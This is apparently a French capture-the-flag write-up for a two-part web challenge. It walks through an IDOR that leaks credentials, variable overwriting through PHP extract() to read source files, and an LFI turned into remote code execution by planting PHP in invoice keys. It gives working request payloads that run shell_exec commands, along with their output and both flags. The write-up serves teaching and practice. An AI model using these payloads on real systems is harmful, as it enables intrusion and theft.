








# Les crèmes de Madame Loïc 1-2

### Description

Madame Loîc se modernise et a décidé de vendre ses produits sur un site internet, en passant par une solution personnelle, en effet, elle n'a pas confiance envers KrestaChop (célèbre CMS permettant la vente sur internet).

En tant que petit-fils très investi, elle vous demande de tester son application, car elle connaît vos compétences en cybersécurité (vous l'avez aidé à brancher son imprimante en réseau).

Pourriez-vous trouver une/des vulnérabilité(s) vous permettant d'accéder à sa recette secrète ?

`https://les-cremes-de-madame-loic.ctf.bzh:21000/`

### Solution

On arrive sur l'application, et nous n'avons pas d'autres choix que de nous créer un compte, on utilise donc le fameux "test/test".

Lorsqu'on arrive sur l'application, on remarque que l'on peut acheter des produits :



Ici, si l'on tente d'acheter la recette secrète, l'application nous répond ceci :

`Vous ne pouvez pas acheter cet article, il est réservé à l'utilisateur mamie.`

On tente donc d'acheter un autre article, on remarque que l'on peut visualiser notre panier :



Si l'on intercepte les requêtes lorsque l'on requête notre panier, on remarque celle-ci:



Or on a vu que la recette secrète était réservée à l'utilisateur "mamie", on peut donc tenter de rejouer la requête en changeant le paramètre GET "name" de "test" à "mamie":



On a donc bien une IDOR sur le username, et on récupère le path d'un fichier que l'on va aller récupérer :
```
La recette secrete est composee de :
- Lait
- Un maximum de BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}
- Caramel

Il faudra aussi penser a mettre des images pour les produits et a gerer la migration de base de donnees, l'implémentation a commencé ici : /mamiesecret

Pour se faire, n'oublie pas d'utiliser les identifiants suivants :

- mamiemanager / sxEpnMggi8LtD1y198Iy
```

### Flag

BZHCTF{m4m13_n4_p4s_4ppr1s_d3_c3s_3err3urs!!}


# Les crèmes de Madame Loïc 2-2

### Description

Parfait ! Vous avez prouvé à mamie que son application n'était pas sécurisée !

Malheureusement, un de ses concurrents a réussi à faire la même crème alors qu'elle est la seule à connaître la recette secrète, il y aurait-il d'autres vulnérabilités permettant de compromettre totalement le serveur ?

### Solution

Pour cette deuxième partie de challenge, on a donc obtenu des credentials ainsi qu'un endpoint caché permettant d'administrer le site internet. On arrive donc sur un formulaire mais celui-ci ne semble pas fonctionner. Si l'on s'intéress au code HTML, on remarque ce commentaire :
`<!-- Mettre le paramètre "source" en GET permettant de debugger l'application et comprendre pourquoi le javascript ne fonctionne pas. -->`

On va donc passer ce paramètre source pour récupérer le code PHP :
```php
<?php
session_start();
if(!isset($_SESSION["name"]) && $_SESSION["name"] !== "mamiemanager")
{
    header("Location: /");
    die();
}

extract($_GET);

if(isset($page)) include("pages/".$page);
else include("pages/factures.php");

if(isset($source))
{
    die(show_source($_SERVER["SCRIPT_FILENAME"]));
}
?>
```

Ici, il y a une vulnérabilité assez évident, c'est la Local File Inclusion sur le paramètre "page", malheureusement, elle ne sera pas utile pour l'instant.

Il y a ici une autre vulnérabilité induit par la fonction extract(). En effet, cette fonction va attribuer la clé d'un tableau à une valeur, exemple :

```php
<?php
$arr = ["player"=>"worty"];
extract($arr);
echo $player;
//worty
>
```

Sauf qu'ici, cette fonction est appelée sur une variable controlée par l'utilisateur, il est donc possible pour celui-ci d'aller overwrite des variables de l'application, mais aussi de PHP ! Il est donc possible ici d'aller ré-écrire la variable $_SERVER["SCRIPT_FILENAME"], permettant d'obtenir le code PHP de tous les fichiers que l'on souhaite :

```
http://localhost:21007/mamiesecret?source&_SERVER[SCRIPT_FILENAME]=pages/factures.php
```



Ici, on remarque que si les variables $montants et $client sont définies, on appelle une fonction qui nous permet de créer une facture. Pour que cela soit le cas, il suffit, lorsque l'on tape sur /mamiesecret, de passer deux paramètres GET "client" et "montants" (car on utilise la fonction extract qui va donc aller définir ces variables).

Il nous reste un dernier fichier à leak :

```
http://localhost:21007/mamiesecret?source&_SERVER[SCRIPT_FILENAME]=../../functions/mamie_functions.php
```



Ici, il va falloir analyser le code PHP pour comprendre ce que celui-ci fait :
- Il utilise la fonction func_get_args() qui permet de récupérer les paramètres qui sont passés à la fonction.
- Il récupère le(s) montant(s) de(s) article(s) acheté(s) dans la première entrée de func_get_args()
- Il récupère le nom du client dans la deuxième entrée de func_get_args()
- On vérifie que le prix de chaque entrée de la variable $montants est bien un int.
- On créé ensuite une facture avec le nom du client, ainsi que toutes les entrées dans la variable $montants

On en déduit donc deux choses :
- La variable $client doit être une string
- La variable $montants doit être un array

On peut donc tenter de créer une facture :

```
http://localhost:21007/mamiesecret?client=Worty&montants[croissant]=5
```

Ici, en passant `montants[croissant]=5`, cela va permettre de créer un tableau associatif en PHP `["croissant" => 5]`.

On peut aller vérifier que notre facture a bien été créée :



Ici il y a une vulnérabilité qui va permettre d'exploiter la LFI pour la transformer en RCE. En effet, dans la variable $montants, on peut controler la valeur de la clé du tableau associatif créé, on peut donc tenter de passer ici une balise PHP et ensuite aller inclure notre facture avec la LFI :

```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20phpinfo();%20?%3E]=5
```



On a donc ici une RCE que l'on va exploiter pour aller liste les fichiers à la racine :
```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20var_dump(shell_exec(%27ls%20/%27));%20?%3E]=5
```

```
Nous, l'entreprise Loik Corp, nous adressons cette facture à vous, Worty en vue de votre commande passée sur notre site. Numéro de téléphone de l'entreprise: 0102030405 Votre commande est la suivante: - string(134) "bin boot dev etc home lib lib64 media mnt opt proc real_very_very_secret_recette_of_my_cream.secret root run sbin srv sys tmp usr var " : 5 Le tout pour un prix total de: 5 Cordialement, L'entreprise Loik Corp
SalesLoïc

    Secret space (current)

Créer une facture
Nom de l'article
Nombre acheté
Nom du client
```

On obtient donc le nom du fichier qui contient la vraie recette secrète, il nous suffit donc d'aller l'afficher avec la commande cat :

```
http://localhost:21007/mamiesecret?client=Worty&montants[%3C?php%20var_dump(shell_exec(%27cat%20/real_very_very_secret_recette_of_my_cream.secret%27));%20?%3E]=5
```

```
Nous, l'entreprise Loik Corp, nous adressons cette facture à vous, Worty en vue de votre commande passée sur notre site. Numéro de téléphone de l'entreprise: 0102030405 Votre commande est la suivante: - string(64) "BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!} " : 5 Le tout pour un prix total de: 5 Cordialement, L'entreprise Loik Corp 
```

### Flag

BZHCTF{m4m13_4ur41t_du_3ng4g3r_un3_p3rs0nn3_plus_comp3t3nt3s!!}